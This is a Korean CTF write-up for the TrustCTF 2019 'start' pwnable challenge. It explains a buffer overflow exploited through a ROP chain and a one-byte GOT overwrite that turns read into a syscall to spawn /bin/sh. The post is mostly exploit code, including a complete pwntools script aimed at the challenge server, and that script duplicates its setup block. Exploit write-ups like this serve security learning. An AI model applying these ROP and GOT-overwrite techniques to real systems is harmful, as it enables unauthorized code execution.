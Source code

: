 ```yaml
---
layout: post
title: ! "[TrustCTF 2019] start Write-up"
excerpt_separator: <!--more-->
comments : true
tags:
  - KRater
  - Write-up
  - CTF
---
```


TrustCTF에 나왔던 가장 쉬운 `pwnable` 문제였던 start 풀이.


<!--more-->

### 문제

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic01.PNG)

간단한 BOF문제인데 read 이후 프로그램이 끝나고, write는 주지도 않는다.

같은 팀원한테 물어봐서 바보소리 듣고 read 함수 안에있는 syscall 쓰라고 해서 풀었다 헤헤..

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic02.PNG)

ROP 하라고 대놓고 가젯폭탄도 던져준다.

버퍼사이즈 빡빡하긴 한데 이게 있어서 전부 구겨넣을 수 있다.

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic03.PNG)

주어진 libc에서 read 함수 안에있는 syscall 위치를 찾는다.

### Stage 1

```python
payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")
```

bss 영역에 `/bin/sh`를 써 넣는다.

그리고 다시 main 함수로 돌아간다.

### Stage 2

```python
payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")
```

그다음은 read got 영역을 1바이트만 쓴다. (syscall 주소, 0x7b)

이제 read가 syscall이 됬으니까 bss 영역에 쓴 `/bin/sh`를 활용해서 쉘을 따주면 된다 ^0^

### Exploit Code

```python
from pwn import *
  
HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

from pwn import *

HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")

payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")

#r.sendline("cat flag")

r.interactive()
```

쉬운 문제였지만 감을 잃지 않으려면 꾸준히 노력해야 한다는 것을 깨닫게 해 준 고마운 문제였다.
